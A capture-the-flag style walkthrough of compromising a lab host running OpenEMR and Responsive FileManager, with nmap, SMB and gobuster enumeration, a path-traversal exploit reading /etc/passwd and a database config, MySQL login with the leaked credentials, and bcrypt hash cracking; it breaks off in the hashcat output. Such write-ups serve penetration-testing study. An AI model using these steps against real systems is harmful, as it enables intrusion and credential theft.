Writeup by wook413

[TOC]

# Enumeration

## Nmap

initial Nmap scan result

```bash
┌──(kali㉿kali)-[~/Desktop/vpn]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:43 UTC
Nmap scan report for 192.168.109.145
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 43.88 seconds
```

Second Nmap scan on the discovered ports only with `-sC` and `-sV` flags.

```bash
┌──(kali㉿kali)-[~/Desktop/vpn]
└─$ nmap $IP -sC -sV -p 80,445,3306           
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:44 UTC
Nmap scan report for 192.168.109.145
Host is up (0.045s latency).

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: APEX Hospital
|_http-server-header: Apache/2.4.29 (Ubuntu)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MariaDB 5.5.5-10.1.48
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 32
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, FoundRows, SupportsTransactions, DontAllowDatabaseTableColumn, SupportsCompression, LongColumnFlag, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, ODBCClient, IgnoreSpaceBeforeParenthesis, LongPassword, ConnectWithDatabase, InteractiveClient, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: a1lP*!e\\ztU-|PWF7~;H
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: APEX

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2026-01-12T02:44:56
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: apex
|   NetBIOS computer name: APEX\\x00
|   Domain name: \\x00
|   FQDN: apex
|_  System time: 2026-01-11T21:44:55-05:00

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 47.15 seconds
```

UDP scan result

```bash
┌──(kali㉿kali)-[~/Desktop/vpn]
└─$ nmap $IP -sU --top-ports 10    
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 02:46 UTC
Nmap scan report for 192.168.109.145
Host is up (0.044s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  closed        microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.68 seconds
```

# Initial Access

## SMB 445

Every time I see SMB on the nmap scan result, I like to start off by  `smb-enum-shares` and `smb-enum-users` scripts.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=smb-enum-shares,smb-enum-users -p 139,445 -sC -sV
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 04:53 UTC
Nmap scan report for 192.168.109.145
Host is up (0.048s latency).

PORT    STATE    SERVICE     VERSION
139/tcp filtered netbios-ssn
445/tcp open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: APEX

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\\\192.168.109.145\\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (APEX server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\\\192.168.109.145\\docs: 
|     Type: STYPE_DISKTREE
|     Comment: Documents
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\\var\\www\\html\\source\\Documents
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\\\192.168.109.145\\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\\var\\lib\\samba\\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 36.89 seconds
```

We see a share that’s not there by default: `docs`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP                                                               

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        docs            Disk      Documents
        IPC$            IPC       IPC Service (APEX server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.109.145 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```

Inside the share, there were 2 pdf files but the contents inside them didn’t get me anywhere.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/docs                         
Password for [WORKGROUP\\kali]:
Try "help" to get a list of possible commands.
smb: \\> ls
  .                                   D        0  Fri Apr  9 15:47:12 2021
  ..                                  D        0  Fri Apr  9 15:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 15:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 15:47:12 2021
```

## HTTP 80

For HTTP, like I did for SMB, I started off with `http-enum` script which revealed `/filemanager` and `/source` shares.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=http-enum -sC -sV -p 80                          
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-12 04:54 UTC
Nmap scan report for 192.168.109.145
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-enum: 
|   /filemanager/: Potentially interesting folder
|_  /source/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

The landing page of the website looks like below and they have 4 doctors. I took a note of their names since they might become useful for brute-forcing attack later.


Clicking on the `scheduler` tab, the website takes me to `/openemr` . I attempted a few default credentials on the login form, but they wouldn’t work.



After identifying the `/openemr` directory, I performed a directory brute-force attack using Gobuster, which revealed several interesting files and subdirectories.

```bash
┌──(venv)─(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP/openemr> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,asp,xml,html,js,sql,gz,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.109.145/openemr>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,asp,xml,html,js,sql,gz,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.php            (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]
/images               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/images/>]
/templates            (Status: 301) [Size: 330] [--> <http://192.168.109.145/openemr/templates/>]
/services             (Status: 301) [Size: 329] [--> <http://192.168.109.145/openemr/services/>]
/modules              (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/modules/>]
/common               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/common/>]
/library              (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/library/>]
/public               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/public/>]
/version.php          (Status: 200) [Size: 0]
/admin.php            (Status: 200) [Size: 937]
/portal               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/portal/>]
/tests                (Status: 301) [Size: 326] [--> <http://192.168.109.145/openemr/tests/>]
/sites                (Status: 301) [Size: 326] [--> <http://192.168.109.145/openemr/sites/>]
/custom               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/custom/>]
/contrib              (Status: 301) [Size: 328] [--> <http://192.168.109.145/openemr/contrib/>]
/interface            (Status: 301) [Size: 330] [--> <http://192.168.109.145/openemr/interface/>]
/vendor               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/vendor/>]
/config               (Status: 301) [Size: 327] [--> <http://192.168.109.145/openemr/config/>]
/setup.php            (Status: 500) [Size: 0]
/Documentation        (Status: 301) [Size: 334] [--> <http://192.168.109.145/openemr/Documentation/>]
/sql                  (Status: 301) [Size: 324] [--> <http://192.168.109.145/openemr/sql/>]
/build.xml            (Status: 200) [Size: 6102]
/controller.php       (Status: 200) [Size: 37]
/LICENSE              (Status: 200) [Size: 35147]
```

`/openemr/admin.php` reveals that the actual version of installed OpenEMR is 5.0.1



However, it appeared that all of the exploits required valid credentials which I do not have at the moment.

```bash
┌──(venv)─(kali㉿kali)-[~/Desktop]
└─$ searchsploit openemr 5.0.1
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution                                                      | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                                                               | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)                                               | php/webapps/49486.rb
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)                             | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)                         | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                                                | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                                                 | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                                                 | php/webapps/45161.py
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated)                                             | php/webapps/50037.py
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2)                                         | php/webapps/50087.rb
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I suspected this might be a rabbit hole so I circled back to gobuster and performed directory brute forcing on the root path `/` .

```bash
┌──(venv)─(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt                                  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.109.145>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 280]
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/assets               (Status: 301) [Size: 319] [--> <http://192.168.109.145/assets/>]
/filemanager          (Status: 301) [Size: 324] [--> <http://192.168.109.145/filemanager/>]
/index.html           (Status: 200) [Size: 28957]
/server-status        (Status: 403) [Size: 280]
/source               (Status: 301) [Size: 319] [--> <http://192.168.109.145/source/>]
/thumbs               (Status: 301) [Size: 319] [--> <http://192.168.109.145/thumbs/>]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

In `/filemanager` , there were two shares: Images and Documents.



I attempted to upload a reverse shell payload file but the server appears to be blocking `.php` file extension.



But accepting `.pdf`



I discovered the version of the filemanager: `v.9.13.4`



Serachsploit was able to locate and return some known vulnerabilities to the version.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit responsive filemanager 9.13.4
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Responsive FileManager 9.13.4 - 'path' Path Traversal                                                   | php/webapps/49359.py
Responsive FileManager 9.13.4 - Multiple Vulnerabilities                                                | php/webapps/45987.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                   | php/webapps/45271.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looks like the exploit is working properly.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 49359.py <http://$IP> PHPSESSID=q89eh8gadjf1f4mf8b01bdinql /etc/passwd
[*] Copy Clipboard
[*] Paste Clipboard
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
white:x:1000:1000::/home/white:/bin/sh
```

I attempted to read `/openemr/sites/default/sqlconf.php` but it didn’t work. I suspect it might be the `.php` file extension that the exploit can’t read.



Inside the code, I made a few small edits so our exploit can read `.php` files. If the file manager still doesn’t show the file, I’m going to visit the SMB share  because we know the SMB share and the `Documents` folder in filemanager are sharing the same environment.



```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 49359.py <http://$IP> PHPSESSID=q89eh8gadjf1f4mf8b01bdinql /var/www/openemr/sites/default/sqlconf.php     
[*] Copy Clipboard
[*] Paste Clipboard
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.109.145 Port 80</address>
</body></html>
```

The server is saying there are 4 files when I only see 3. Can it be  `sqlconf.php` ? It’s there but just not showing up?



I visited `/docs` and confirmed that `sqlconf.php` file is actually present.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/docs
Password for [WORKGROUP\\kali]:
Try "help" to get a list of possible commands.
smb: \\> ls
  .                                   D        0  Mon Jan 12 05:00:18 2026
  ..                                  D        0  Mon Jan 12 04:46:19 2026
  passwd                              N     1607  Mon Jan 12 05:00:18 2026
  sqlconf.php                         N      639  Mon Jan 12 05:01:04 2026
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 15:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 15:47:12 2021

                16446332 blocks of size 1024. 9174816 blocks available
smb: \\> 
```

I obtained what appears to be the credentials of the MySQL DB.

```bash
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';

//Added ability to disable
//utf8 encoding - bm 05-2009
global $disable_utf8_flag;
$disable_utf8_flag = false;

$sqlconf = array();
global $sqlconf;
$sqlconf["host"]= $host;
$sqlconf["port"] = $port;
$sqlconf["login"] = $login;
$sqlconf["pass"] = $pass;
$sqlconf["dbase"] = $dbase;
//////////////////////////
//////////////////////////
//////////////////////////
//////DO NOT TOUCH THIS///
$config = 1; /////////////
//////////////////////////
//////////////////////////
//////////////////////////
?>
```

## MySQL 3306

I was able to authenticate to the database server using the credentials.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ mysql -h $IP -u openemr -p'C78maEQUIEuQ' --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \\g.
Your MariaDB connection id is 268
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

MariaDB [(none)]> 
```

`openemer` database is available.

```bash
MariaDB [(none)]> show databases;                                    
+--------------------+                                               
| Database           |                                               
+--------------------+                                               
| information_schema |                                                                                                                    
| openemr            |                                               
+--------------------+                                               
2 rows in set (0.050 sec)                                            
                                                                     
MariaDB [(none)]> use openemr;                                       
Reading table information for completion of table and column names   
You can turn off this feature to get a quicker startup with -A       
                    
Database changed                       
MariaDB [openemr]> show tables;        
+---------------------------------------+                                     
| Tables_in_openemr                     |                                                
+---------------------------------------+                                                
| addresses                             |                                                
| amc_misc_data                         |                                                
| amendments                            |                                                                                   
| amendments_history                    |                                                                                   
| ar_activity                           |                                                                                   
| ar_session                            |                                                                                   
| array                                 |                                                                                   
| audit_details                         |                                                                                   
| audit_master                          |                                                                                   
...
...     
```

Also `secure_file_priv` variable is empty, meaning we can try writing files as the last resort if we can’t find anything in the database.

```bash
MariaDB [openemr]> show variables like "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.047 sec)
```

I found admin user and its hashed password in the `users_secure` table.

```bash
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.046 sec)
```

Successfully cracked the hash.

```bash
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC:thedoctor
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMA...kK8XnC
Time.Started.....: Mon Jan 12 05:17:01 2026 (17 secs)
Time.Estimated...: Mon Jan 12 05:17:18 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2464 H/s (5.98ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
